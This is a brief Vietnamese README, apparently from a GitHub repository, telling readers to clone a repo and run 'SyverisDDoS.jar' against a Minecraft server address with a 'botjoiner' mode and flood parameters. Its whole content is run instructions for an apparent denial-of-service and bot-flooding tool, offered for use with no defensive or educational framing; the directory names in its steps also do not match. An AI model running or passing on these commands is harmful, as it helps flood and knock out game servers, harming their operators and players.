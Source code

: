 # vô và trải nghiệm đi 
**code** :  ``cd 1`` ``java -jar SyverisDDoS.jar 1.1.1.1:25565 340 botjoiner 30 1000``

# **cài trên linux** 
**code** : ``git clone https://github.com/zwtx2944/tool-spam-jar.git`` ``cd tool-spawn-jar`` ``cd 1``  ``java -jar SyverisDDoS.jar 1.1.1.1:25565 340 botjoiner 30 1000``

**bye**
